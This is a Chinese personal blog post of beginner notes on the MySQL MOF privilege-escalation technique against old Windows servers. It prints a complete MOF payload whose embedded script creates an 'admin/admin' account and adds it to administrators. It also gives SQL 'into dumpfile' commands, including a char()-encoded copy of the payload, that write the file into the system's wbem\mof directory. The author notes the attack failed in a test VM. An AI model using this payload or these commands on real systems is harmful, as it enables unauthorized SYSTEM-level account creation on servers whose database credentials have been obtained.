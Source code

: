 ```yaml
---
layout: post
title: mof提权
key: 20180620
tags: MySQL提权
---
```


第一次接触提权，先看了个最简单的，哈哈哈哈，看了几个视频和文章，然后整理了一下，估计很多不对的地方，等真正了解了就回来改掉。

<!--more-->

## 原理  
mof是Windows系统的一个文件，位于c:\windows\system32\wbem\mof\nullevt.mof，叫做托管对象格式，
它的作用是每隔5秒，就会去监控进程的创建和死亡。mof提权的简单利用过程就是，拥有了MySQL的root权限
后，使用root权限去执行上传操作，将我们重新改写过的mof文件上传，之后，这个文件会被服务器每隔5秒
以system权限执行。这个改写的mof中，有一段是vbs脚本，这个vbs大多数是cmd的添加管理员用户的命令。
  
  
## 为什么可以提权？  
可以提权的根本原因是因为有一个更高权限的线程执行了命令。我们这里nullevt.mof文件的加载过程有system
用户执行，因此我们可以最高把用户的权限提升到system。  
  
  
## 利用条件  
- Windows版本<=2003  
- c:\windows\system32\wbem\mof目录可写入  
- 数据库允许外连，且已知root账号密码  
  
 
## 利用代码  
># pragma namespace("\\.\root\subscription")

instance of **EventFilter as $EventFilter{    EventNamespace = "Root\Cimv2";    Name  = "filtP2";    Query = "Select \* From **InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add")";
};

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};  
其中的关键就在于第14行的“net.exe user admin admin /add”，这句是用来创建一个用户名为admin，密码为admin的用户，创建成功后，再将这句命令改为
“net.exe localgroup administrators admin /add”后，再次上传，达到创建admin用户并将其加入administrators组的目的。  
  
## 利用过程  
  
### 拥有网站webshell时  
如果已经得到了该网站的webshell，那么可以将nullevt.mof文件上传到c盘的的可写目录xxx，然后执行下面的SQL命令即可  
>select load_file('c:\xxx\nullevt.mof') into dumpfile'c:\windows\system32\wbem\mof\nullevt.mof';  
这里可以看下dumpfile与outfile的区别，对于outfile来说，into outfile会自动添加换行符等操作，适用于文本文件，因为会产生冗余数据，会导致我们的命令执行
失败。而into dumpfile是将文件以二进制的方式写入，因此这里我们用into dumpfile。  
  
### 未拥有网站webshell  
对于没有网站webshell的情况，我们可以采取连接数据库后直接写入的方式，将代码转换为ASCII码后，直接传入。  
>select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,
115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,
116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,
115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,
108,116,80,50,34,59,13,10,32,32,32,32,81,117,101,114,121,32,61,32,34,83,101,108,101,99,116,32,42,32,70,114,111,109,32,95,95,73,110,
115,116,97,110,99,101,77,111,100,105,102,105,99,97,116,105,111,110,69,118,101,110,116,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,
32,34,87,104,101,114,101,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,32,73,115,97,32,92,34,87,105,110,51,50,95,76,111,99,
97,108,84,105,109,101,92,34,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,65,110,100,32,84,97,114,103,101,116,73,110,115,116,
97,110,99,101,46,83,101,99,111,110,100,32,61,32,53,34,59,13,10,32,32,32,32,81,117,101,114,121,76,97,110,103,117,97,103,101,32,61,
32,34,87,81,76,34,59,13,10,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,65,99,116,105,118,101,83,99,114,105,112,
116,69,118,101,110,116,67,111,110,115,117,109,101,114,32,97,115,32,36,67,111,110,115,117,109,101,114,13,10,123,13,10,32,32,32,32,
78,97,109,101,32,61,32,34,99,111,110,115,80,67,83,86,50,34,59,13,10,32,32,32,32,83,99,114,105,112,116,105,110,103,69,110,103,105,
110,101,32,61,32,34,74,83,99,114,105,112,116,34,59,13,10,32,32,32,32,83,99,114,105,112,116,84,101,120,116,32,61,13,10,32,32,32,32,
34,118,97,114,32,87,83,72,32,61,32,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,92,34,87,83,99,114,105,112,116,
46,83,104,101,108,108,92,34,41,92,110,87,83,72,46,114,117,110,40,92,34,110,101,116,46,101,120,101,32,108,111,99,97,108,103,114,111,
117,112,32,97,100,109,105,110,105,115,116,114,97,116,111,114,115,32,97,100,109,105,110,32,47,97,100,100,92,34,41,34,59,13,10,32,125,
59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,70,105,108,116,101,114,84,111,67,111,110,115,117,109,101,114,66,105,
110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,
13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,
110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile  'c:\windows\system32\wbem\mof\nullevt.mof';  
  
## 总结  
emmmmm，这估计现在应该很少可以成功了，利用的条件都很落后了，感觉应该不会存在了...我在自己的虚拟机里面复现并没有成功，尴尬，我的虚拟机那个
文件夹可以写入，但是写入后会自动创建个名字叫做bad的文件夹，然后将我的nullevt.mof移动到里面去，这是什么原因呢，暂时还不知道，网上搜了下，也
没看到什么解释，等找个时间问问dalao，在来补充吧...  
  
>离职了，想找新工作了，加油吧!!!! >_<
